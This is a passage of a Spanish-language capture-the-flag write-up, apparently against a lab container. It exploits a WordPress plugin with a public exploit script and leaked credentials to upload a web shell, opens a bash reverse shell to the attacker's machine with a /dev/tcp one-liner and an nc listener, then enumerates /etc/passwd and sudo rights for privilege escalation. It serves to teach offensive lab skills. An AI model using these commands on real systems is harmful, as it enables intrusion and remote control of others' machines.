 Procedemos a explotar este plugin:
```bash
# Comandos para explotación
python3 50082.py -T 172.18.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

Logramos colar una shell que nos permitira ejecutar comandos:
```bash
[+] Authentication successfull !

[+] Shell Uploaded to: http://172.18.0.2:80//wp-content/uploads/shell.php
```
### Intrusion
Una ves carguemos  la url obtendremos una shell
```bash
# Reverse shell o acceso inicial
http://172.18.0.2//wp-content/uploads/shell.php
```

Nos ponemos en escucha en nuesta maquina de atacante:
```bash
nc -nlvp 443
```

Una ves dentro nos enviamos una **reverShell** a nuesta maquina de atacante:
```bash
bash -c 'exec bash -i &>/dev/tcp/172.18.0.1/443 <&1'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
cat /etc/passwd 

# Tenemos dos usuarios del sistema:
rafa:x:1001:1001:,,,:/home/rafa:/bin/bash
ruben:x:1002:1002:,,,:/home/ruben:/bin/bash
```
### Explotacion de Privilegios

###### Usuario `[ www-data ]`:
```bash
sudo -l

User www-data may run the following commands on 30541a035246:
    (rafa) NOPASSWD: /usr/bin/find # Tenemos un vinario potencial para escalar a este usuario
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /usr/bin/find ]`
- Credenciales de usuario: `[ rafa ]:[ ]`
